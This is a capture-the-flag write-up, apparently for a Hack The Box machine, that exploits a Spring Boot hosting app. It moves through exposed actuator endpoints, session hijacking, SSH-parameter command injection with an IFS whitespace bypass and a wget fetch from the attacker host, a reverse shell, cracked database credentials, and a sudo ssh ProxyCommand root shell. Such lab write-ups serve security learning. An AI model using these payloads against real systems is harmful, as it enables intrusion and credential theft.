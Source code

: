 # PORT SCAN
* **22** [ssh]
* **80** [http]

<br>

# ENUMERATION

![1.jpeg](img/1.jpeg)

The box is acting as a hosting service with different pricing

At `/admin` you can check a login page (`/login`)

![2.png](img/2.png)


While I was running some bruteforce (login page and subdomain) I tried some fuzz on the webapp and found this strange error message

![3.png](img/3.png)

This is a **<u>whitelabel error message</u>** which usually is costumized by the website author and is the standard label for **<u>[**Spring Framework**](https://spring.io/projects/spring-framework)</u>**

Looking at [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators) we can find some usefull endpoint and `/actuator/env` exist on the webapp

![4.png](img/4.png)

An **actuator** is a feature which help developers to monito and manage the webapp

The specific actuator found allow us to **view the environment configuration information for the application.yaml configuration** ([source](https://www.springcloud.io/post/2022-02/spring-boot-actuator-security-issues/#gsc.tab=0))

With more enumaration I was abblo to discovere the existence of `/actuator/mappings` and this one show all MVC cintroller mappings (module of the Spring framework dealing with the Model-View-Controller)

Thanks to this we can discover more actuator lik `/actuator/sessions`

![5.png](img/5.png)

Cool! The strings on the left are the `sessionID` so I tried to acces `/admin` using the **kenderson** profile. We got access at he **Admin Dashboard**

![2.jpeg](img/2.jpeg)

<br>

# FOOTHOLD & USER FLAG

The below part of the dashboard allow us to connect on a ssh host (if the key received upon registration is included in `authorised_keys`), when we set hostname and username we send a POST request at `/executessh`

I tried some OS command injection on the 2 parameters (hostname and username) and with the value `";whoami#` I got this interesting error

![6.png](img/6.png)

Funny thing happen when I used `;whoami` as username parameter

![7.png](img/7.png)

With this parameter the bash is executing `whoami@10.10.14.181` so the bash is doing something `bash -c "ssh [username]@[hostname]"`

With some fuzzing only the standard error output is redirect to the `?error` parameter, to prove this I used `;id;` as username parameter

![9.png](img/9.png)

There is no output of the `id` command but the ssh usage and command not found appear, this means that `id` has been execued on the server side.

Small problem : the username does not accept whitespace...cool stuff!

There is a special variable in bash called [IFS](https://www.baeldung.com/linux/ifs-shell-variable) which define the character used as separator by the shell, since we have a way to inject a single command (whitout space) we can inject using this parameter as username `;IFS=_;command=wget_http://10.10.14.181/rool;$command;` and my test was a success!

![10.png](img/10.png)

![11.png](img/11.png)

Now we can easily inject our reverse shell using this method, cool stuff! 

To get the shell I just used the above injection for get a reverse shell script on `/tmp` directory, setting the right permissions (`chmod 777`) and run the script

![12.png](img/12.png)

As soon we are inside the system we are in the path `/app` with `cloudhosting-0.0.1.jar` file, running that is the spring boot to start the webapp

Try to run a few times but same error occure, port 8080 is busy and the process is stopped. Enumeration was not successfull nothing interesting else where so I decided to upload locally the jar file and try to discover something


Using `jd-gui` I wa able to decompile the jar file and with a quick analysis I found the **postgres credentials**

![13.png](img/13.png)

Just access the database on the table `users` and I found the hash of **josh** easily cracked with `johntheripper`

![14.png](img/14.png)

<br>

# ROOT FLAG
After getting the user flag I moved on with `sudo -l`, pretty simple now GTFO bins allow us a cool way to spawn an interactive shell with ssh `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`.

Pretty simple root!

![15.png](img/15.png)

